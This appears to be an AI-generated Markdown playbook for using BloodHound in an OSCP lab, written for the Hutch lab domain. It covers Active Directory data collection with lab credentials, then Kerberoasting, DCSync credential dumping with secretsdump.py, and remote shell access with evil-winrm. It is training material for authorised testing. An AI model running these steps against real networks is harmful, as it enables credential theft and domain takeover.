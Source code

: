 Perfect — I’ll generate a **complete GitHub Markdown playbook for BloodHound** that’s exam-day friendly. It includes:

* Setup and login details (Neo4j credentials)
* Independent, copy-pasteable commands (Linux + Windows)
* Explanations of what each does and what to expect
* Guidance on running analysis inside BloodHound and which queries are the most useful

Here’s the full notes file:

---

````markdown
# 🩸 BloodHound OSCP Exam Playbook

BloodHound is a graph-based tool that helps penetration testers **map Active Directory attack paths**.  
It does not exploit anything by itself; instead, it shows how compromised accounts can be leveraged to reach **Domain Admin**.

---

## ✅ Why Use BloodHound in OSCP?
- Allowed in the OSCP exam (common candidate mistake: assuming it is banned).  
- Saves hours of manual graphing of user → group → computer → privilege chains.  
- Lets you focus on **executing attacks** instead of guessing where to move next.

---

## 🔧 Install on Kali
```bash
sudo apt update
sudo apt install bloodhound neo4j -y
````

---

## 🛠️ Start Neo4j + BloodHound GUI

```bash
sudo neo4j console      # runs Neo4j database (keep this open)
bloodhound &            # opens BloodHound GUI
```

### Default Neo4j Credentials

```
Username: neo4j
Password: neo4j
```

(You’ll be forced to reset on first login. Save your new password in your exam notes.)

---

## 📡 Step 1: Fix Name Resolution

BloodHound collectors need to resolve the **Domain Controller** (DC) by name, not just IP.

```bash
echo "192.168.131.122 hutchdc.hutch.offsec hutchdc" | sudo tee -a /etc/hosts
```

Check it works:

```bash
getent hosts hutchdc.hutch.offsec
# Expected: 192.168.131.122 hutchdc.hutch.offsec hutchdc
```

---

## 🐍 Step 2: Collect Data from Kali (bloodhound-python)

### Full Collection (best if network is stable)

```bash
bloodhound-python \
  -u 'fmcsorley' \
  -p 'CrabSharkJellyfish192' \
  -d hutch.offsec \
  -dc hutchdc.hutch.offsec \
  -c all \
  --auth-method ntlm \
  --dns-tcp \
  -ns 192.168.131.122 \
  --zip
```

**Explanation**

* `-u / -p`: domain creds you cracked.
* `-d`: domain name (from LDAP/kerbrute).
* `-dc`: DC FQDN.
* `-c all`: run all collection modules.
* `--zip`: bundle JSON into one `.zip`.
* `--auth-method ntlm`: avoids Kerberos ticket issues.
* `-ns`: force DNS queries to the DC itself.

**Expected output**:

```
INFO: Found 1 domains
INFO: Found 18 users
INFO: Found 52 groups
INFO: Saved data to ./20250913_1500_bloodhound.zip
```

### Minimal Collection (faster, avoids session timeout)

```bash
bloodhound-python \
  -u 'fmcsorley' \
  -p 'CrabSharkJellyfish192' \
  -d hutch.offsec \
  -dc hutchdc.hutch.offsec \
  -c Group,LocalAdmin,ACL,ObjectProps,SPNTargets \
  --auth-method ntlm \
  --zip
```

---

## 💻 Step 3: Collect Data from Windows (optional)

If you have RCE or WinRM on a Windows domain host, you can run SharpHound directly:

```powershell
.\SharpHound.exe -c All -d hutch.offsec -DomainController hutchdc.hutch.offsec -zipfilename loot.zip
```

Copy the `.zip` back to Kali for analysis.

---

## 📊 Step 4: Import and Analyze in BloodHound

1. Launch BloodHound (`bloodhound &`).
2. Login with Neo4j creds (neo4j / your reset password).
3. Drag & drop the `.zip` into the GUI.
4. Run analysis queries from the **Analysis tab**:

### 🔎 Useful Queries

* **Shortest Paths to Domain Admins from Owned Principals**
  → Shows the chain from your compromised account to DA.

* **Find Principals with DCSync Rights**
  → If your user has “GetChanges” + “GetChangesAll” → perform a DCSync attack.

* **Find Kerberoastable Users**
  → Accounts with SPNs that can be roasted.

* **Find AS-REP Roastable Accounts**
  → Users without Kerberos pre-auth (attack without knowing a password).

* **Map Domain Trusts**
  → Only relevant if multiple domains exist.

### Expected Output

You’ll see a **graph** of nodes (users, groups, computers) connected by edges (permissions, admin rights, group membership).
Follow the **red highlighted path** to Domain Admin.

---

## 🧠 Common Mistakes (Avoid These in Exam)

* ❌ Forgetting to update `/etc/hosts` → collector crashes with “Name or service not known.”
* ❌ Only saving console logs → GUI needs the **JSON/ZIP**, not logs.
* ❌ Depending only on BloodHound → always confirm edges with manual tools (`ldapsearch`, `rpcclient`, `powerview`).
* ❌ Assuming it’s banned → it is allowed in OSCP.
* ❌ Running with no creds → data is very limited. Crack one password first.

---

## 🚀 Step 5: Execute Attacks (Post-Analysis)

BloodHound only shows the map. You must execute the edges:

* **Kerberoastable user found**:

  ```bash
  GetUserSPNs.py hutch.offsec/fmcsorley:'CrabSharkJellyfish192' -dc-ip 192.168.131.122 -request
  ```

  Crack tickets with hashcat mode 13100.

* **DCSync rights found**:

  ```bash
  secretsdump.py hutch.offsec/fmcsorley:'CrabSharkJellyfish192'@192.168.131.122 -just-dc
  ```

* **Local Admin edge**:

  ```bash
  evil-winrm -i 192.168.131.122 -u fmcsorley -p 'CrabSharkJellyfish192'
  ```

---

## 📝 TL;DR Exam Workflow

1. Enumerate usernames (kerbrute, LDAP).
2. Crack one password (AS-REP roast).
3. Run `bloodhound-python ... --zip`.
4. Import into BloodHound GUI.
5. Run “Shortest Paths to DA.”
6. Confirm steps manually.
7. Execute → Domain Admin → root.txt.

---

# 🔖 Quick Copy-Paste Cheat Sheet

```bash
# Fix name resolution
echo "192.168.131.122 hutchdc.hutch.offsec hutchdc" | sudo tee -a /etc/hosts

# Full collection
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -d hutch.offsec -dc hutchdc.hutch.offsec -c all --auth-method ntlm --dns-tcp -ns 192.168.131.122 --zip

# Minimal collection
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -d hutch.offsec -dc hutchdc.hutch.offsec -c Group,LocalAdmin,ACL,ObjectProps,SPNTargets --auth-method ntlm --zip

# Start services
sudo neo4j console
bloodhound &
```

---

```

---

```
